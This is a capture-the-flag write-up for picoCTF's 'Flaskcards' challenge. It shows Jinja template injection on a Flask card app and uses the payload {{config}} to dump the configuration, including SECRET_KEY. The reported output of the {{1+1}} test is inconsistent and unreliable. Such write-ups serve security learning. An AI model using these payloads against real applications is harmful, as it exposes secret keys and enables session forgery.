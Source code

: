 # Flaskcards - Points: 350

1. First, lets go through the website : http://2018shell.picoctf.com:17991/
2. Then, we register and login. 
3. Next, lets read the hints : 
    "Are there any common vulnerabilities with the backend of the website?"
    "Is there anywhere that filtering doesn't get applied?"
    "The database gets reverted every 2 hours so your session might end unexpectedly. Just make another user."
    So, we know that we have to find out a kind of a backend such as golang that can match the challenge.
4. After a long time thinking, I find out the keyword "[flask](https://en.wikipedia.org/wiki/Flask_(web_framework))". Then, the challenge is much more easy. The main question now is how to grab the flag out. 
    First, we have to find out what kind of template that the website use, so I google "flask template" and get the result https://flask.palletsprojects.com/en/1.1.x/templating/ .
    Then, we know the keyword "jinja". Lets test it by typing the question bar and the answer bar in "Create a card". 
    ```
    question : {{1+1}}
    answer : {{1+2}}
    ```
    And I get the result : 
    ```
    question : 3
    answer :
    ```
    So, we know that it is injectable.
5. Now, we have to find out a command that can get all data out, but before that, we have to get the information of the config how we get the data. I google "flask jinja config" and get the [result](https://stackoverflow.com/questions/7104198/flask-accessing-the-config-variable-in-the-template). 
    ```
    Example usage in template: {{ config.MY_CONFIGURATION }}
    ```
    After I tried, my payload is below : 
    ```
    {{config}}
    ```
    And I get the information and the flag in "SECRET_KEY" : 
    ```
    Question:<Config {'BOOTSTRAP_LOCAL_SUBDOMAIN': None, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'JSON_SORT_KEYS': True, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_NATIVE_UNICODE': None, 'DEBUG': False, 'TESTING': False, 'SQLALCHEMY_MAX_OVERFLOW': None, 'JSONIFY_MIMETYPE': 'application/json', 'SQLALCHEMY_POOL_SIZE': None, 'SESSION_COOKIE_HTTPONLY': True, 'SERVER_NAME': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'USE_X_SENDFILE': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SESSION_COOKIE_PATH': None, 'BOOTSTRAP_SERVE_LOCAL': False, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_DOMAIN': False, 'ENV': 'production', 'BOOTSTRAP_USE_MINIFIED': True, 'SQLALCHEMY_BINDS': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'SECRET_KEY': 'picoCTF{secret_keys_to_the_kingdom_45e7608d}', 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'MAX_CONTENT_LENGTH': None, 'SESSION_COOKIE_SAMESITE': None, 'SQLALCHEMY_ECHO': False, 'SESSION_COOKIE_NAME': 'session', 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PROPAGATE_EXCEPTIONS': None, 'PREFERRED_URL_SCHEME': 'http', 'TRAP_HTTP_EXCEPTIONS': False, 'BOOTSTRAP_CDN_FORCE_SSL': False, 'TEMPLATES_AUTO_RELOAD': None, 'JSON_AS_ASCII': True, 'SESSION_COOKIE_SECURE': False, 'TRAP_BAD_REQUEST_ERRORS': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_DATABASE_URI': 'sqlite://'}>
    ```
6. Here is the flag : picoCTF{secret_keys_to_the_kingdom_45e7608d}
